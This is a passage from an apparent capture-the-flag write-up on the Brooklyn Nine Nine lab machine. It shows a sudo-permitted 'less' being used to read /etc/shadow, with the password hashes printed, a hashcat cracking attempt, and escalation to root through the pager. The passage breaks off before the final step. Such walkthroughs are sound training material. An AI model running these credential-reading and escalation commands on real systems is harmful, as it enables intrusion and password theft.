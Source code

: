 ```
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

With that you can view /etc/shadow and other sensitive files:

`sudo /usr/bin/less /etc/shadow`

```
amy:$6$UKs4AX7L$8Q1ET3/4EDtczkEAde4Bkc9g4ao2v3IRbapkqtNnWaKa7a2UHbYGsAEqBPlAwXVq8LK39IRjPwmocYkkkikrR0:18399:0:99999:7:::
holt:$6$arvDAeLb$qQX5UfC/TdI2GELzcrI88B7aD.3NGI9eGyhIQPNdtFIcTfzNdSrxt212lOdNM./UQ0dInL0ej4UliuHKKQcjk0:18399:0:99999:7:::
jake:$6$sAa2xMd5$/EyF9jL6BNeNEYixHkn86Gcvg8UeVJl7FvjXcJH1InhrwObBcN7qecniXkq.Bq1nFA8YS8HD2uk/jf8Ju7KnW0:18401:0:99999:7:::
```

We know the password for holt and jake already, but not amy, so I add the hash to a file on my system and try to crack it with hashcat:

`hashcat -m 1800 -w 3 -D 1,2 hash.txt rockyou.txt`

But, no luck:

```
Recovered........: 0/1 (0.00%) Digests
Progress.........: 14344384/14344384 (100.00%)
```

We can also escalate to root with the less command. Again checking [**GTFOBins for the less command**](https://gtfobins.github.io/gtfobins/less/#sudo) shows us:

![](images/brooklyn3.png)

`sudo less /etc/profile`

```
jake@brookly_nine_nine:~$ sudo less /etc/profile
root@brookly_nine_nine:~# whoami
root
```

Once you run the less command above the page will wait to go to the next screen since it's more than one page of info being displayed. You can then type the following to drop out to root:
